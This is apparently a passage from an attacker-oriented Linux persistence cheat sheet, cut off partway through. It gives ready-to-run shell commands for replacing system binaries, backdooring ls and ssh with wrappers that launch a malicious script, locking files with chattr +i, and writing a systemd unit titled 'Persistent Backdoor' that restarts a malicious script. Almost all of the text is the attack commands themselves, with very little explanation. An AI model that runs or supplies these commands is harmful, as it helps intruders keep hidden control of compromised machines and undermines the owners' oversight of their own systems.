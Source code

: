 #### Overwrite a System Binary
- **Replace a legitimate binary with a malicious one:**
	```bash
	cp /path/to/malicious_binary /usr/bin/legitimate_binary
	```
- **Ensure the malicious binary is executable:**
	```bash
	chmod +x /usr/bin/legitimate_binary
	```
- **Backdoor a Commonly Used Binary:**
	```bash
	sudo mv /bin/ls /bin/ls.bak
	echo -e '#!/bin/bash\n/path/to/malicious_script.sh\n/bin/ls.bak "$@"' | sudo tee /bin/ls
	sudo chmod +x /bin/ls
	```
- **Replace a System Utility with a Backdoored Version:**
	```bash
	sudo mv /usr/bin/ssh /usr/bin/ssh.bak
	echo -e '#!/bin/bash\n/path/to/malicious_script.sh\n/usr/bin/ssh.bak "$@"' | sudo tee /usr/bin/ssh
	sudo chmod +x /usr/bin/ssh
	```

#### Persistence via File System Modifications
- **Modify File Permissions to Maintain Access:**
	```bash
	sudo chattr +i /path/to/important_file
	```
- **Create Immutable Files for Persistence:**
	```bash
	sudo chattr +i /path/to/persistent_script.sh
	```

# Systemd Service Persistence
Modern Linux distributions use `systemd` to manage services, including those that start at boot. Attackers can create or modify `systemd` services to achieve persistence.

#### Create Persistent Systemd Service
- **Create Persistent Systemd Service:**
	```bash
	nano /etc/systemd/system/persistent.service
	```
- **Example content:**
	```bash
	sudo bash -c 'cat << EOF > /etc/systemd/system/persistent.service
	[Unit]
	Description=Persistent Backdoor
	
	[Service]
	ExecStart=/bin/bash -c "/path/to/malicious_script.sh"
	Restart=always
	
